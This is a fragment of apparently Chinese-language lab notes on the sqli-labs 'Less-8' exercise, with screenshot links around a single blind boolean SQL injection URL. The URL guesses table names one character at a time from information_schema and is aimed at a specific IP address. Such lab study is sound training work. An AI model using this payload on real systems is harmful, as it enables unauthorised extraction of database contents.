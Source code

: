 ![image-20241007035455307](./assets/image-20241007035455307.png)

```sql
#一次性获取4张表的名字(三个变量x,y,z)
http://8.137.60.154:8082/Less-8/?id=1'and substr((select table_name from information_schema.tables where table_schema=database() limit x,1),y,1)="z" --+
```

![image-20241007035902579](./assets/image-20241007035902579.png)
